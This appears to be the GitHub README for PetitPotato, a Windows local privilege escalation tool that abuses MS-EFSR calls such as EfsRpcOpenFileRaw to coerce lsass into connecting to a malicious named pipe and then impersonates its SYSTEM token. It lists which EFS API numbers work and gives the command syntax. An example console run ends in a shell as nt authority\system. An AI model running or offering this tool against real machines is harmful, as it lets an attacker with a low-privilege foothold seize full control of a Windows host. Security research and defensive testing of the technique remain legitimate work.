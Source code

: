 # PetitPotato

Local privilege escalation via PetitPotam (Abusing impersonate privileges).

## Description

[PetitPotam](https://github.com/topotam/PetitPotam) uses MS-EFSR (Encrypting File System Remote), a protocol used to perform maintenance and management operations on encrypted data stored remotely and accessed over a network. There are a series of APIs similar to `EfsRpcOpenFileRaw` in MS-EFSR. The syntax of the `EfsRpcOpenFileRaw` API is shown below.

```c++
long EfsRpcOpenFileRaw(
   [in] handle_t binding_h,
   [out] PEXIMPORT_CONTEXT_HANDLE* hContext,
   [in, string] wchar_t* FileName,
   [in] long Flags
 );
```

Such APIs can specify a UNC path via the FileName parameter to open encrypted objects on the server for backup or restore. When the path in the format `\\IP\C$` is specified, the lsass.exe service will access `\\IP\pipe\srvsvc` with `NT AUTHORITY SYSTEM` account privileges.

If we can call the `EfsRpcOpenFileRaw` API to force the local computer to connect to the malicious named pipe we created, then we can impersonate the named pipe client process and eventually gain the SYSTEKM privilege.

Here are all the APIs I found that have a FileName parameter, and most of them can be used for privilege escalation (but when I tested locally, some API calls failed, maybe I made a mistake somewhere):

|                MS-EFSR API                 | EfsID |
| :----------------------------------------: | :---: |
|           **EfsRpcOpenFileRaw**            |   0   |
|          **EfsRpcEncryptFileSrv**          |   1   |
|          **EfsRpcDecryptFileSrv**          |   2   |
|         **EfsRpcQueryUsersOnFile**         |   3   |
|       **EfsRpcQueryRecoveryAgents**        |   4   |
|     EfsRpcRemoveUsersFromFile (Failed)     |   5   |
|          **EfsRpcAddUsersToFile**          |   6   |
|           **EfsRpcFileKeyInfo**            |   7   |
| EfsRpcDuplicateEncryptionInfoFile (Failed) |   8   |
|         **EfsRpcAddUsersToFileEx**         |   9   |
|        EfsRpcFileKeyInfoEx (Failed)        |  10   |
|  EfsRpcGetEncryptedFileMetadata (Failed)   |  11   |
|  EfsRpcSetEncryptedFileMetadata (Failed)   |  12   |


## Usage

```powershell
PetitPotato.exe [EfsID] [Command]
```

- `EfsID`: MS-EFSR API number to use
- `Command`: command to execute

## Example

```cmd
C:\Users\Administrator\Desktop>PetitPotato.exe 3 cmd.exe

[+] Malicious named pipe running on \\.\pipe\petit\pipe\srvsvc.
[+] Invoking EfsRpcQueryUsersOnFile with target path: \\localhost/pipe/petit\C$\wh0nqs.txt.
[+] The connection is successful.
[+] ImpersonateNamedPipeClient OK.
[+] OpenThreadToken OK.
[+] DuplicateTokenEx OK.
[+] CreateProcessAsUser OK.
Microsoft Windows [版本 10.0.18363.592]
(c) 2019 Microsoft Corporation。保留所有权利。

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```

![image-20221030165055659](.\images\image-20221030165055659.png)

![image-20221030165622668](.\images\image-20221030165622668.png)

## Link

- https://github.com/topotam/PetitPotam
- https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/
- https://itm4n.github.io/from-rpcview-to-petitpotam/


